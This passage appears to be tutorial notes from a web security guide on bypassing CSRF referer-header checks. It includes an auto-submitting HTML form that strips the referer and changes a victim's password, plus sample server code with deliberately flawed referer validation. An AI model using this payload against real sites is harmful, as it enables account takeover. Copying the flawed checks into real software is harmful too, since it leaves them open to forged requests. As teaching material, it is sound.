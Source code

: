 _Bypass CSRF Referer Header Check_

- If the website is verifying that the referer header sent with the state-changing request is a part of the website's allowlisted domains, it will perform this verification and either reject or execute the request based only on the referer header.
- Start by removing the referer header. To do this add a `<meta>` tag to the page hosting your request form:

  ```
  <html>
    <meta name="referrer" content="no-referrer">
    <form method="POST" action="https://email.com/password_change" id="csrf-form">
      <input type="text" name="new_password" value="abc123">
      <input type='submit' value="Submit">
    </form>
    <script>document.getElementById("CSRF-form").submit();</script>
  </html>
  ```

  - This tells the browser not to include a referer header in the resulting HTTP request.
  - The faulty application logic might look like this:

  ```
  def validate_referer():
    if (request.referer in allowlisted_domains):
      pass
    else:
      throw_error("Referer incorrect. Request rejected.")

  [...]

  def process_state_changing_action():
    if request.referer:
      validate_referer()
    execute_action()
  ```

  - Similar to earlier examples, this application only validates the referer header if it exists. By making the victim's browser omit the referer header, you bypass this CSRF protection.

- You may also be able to bypass the logic check used to validate the referer URL if the application looks for the string "example.com" in the referer URL.

  - The logic would look something like this:

  ```
  def validate_referer():
    if request.referer:
      if ("example.com" in request.referer):
        pass
      else:
        throw_error("Referer incorrect. Request rejected.")

  [...]

  def process_state_changing_action():
    validate_referer()
    execute_action()
  ```
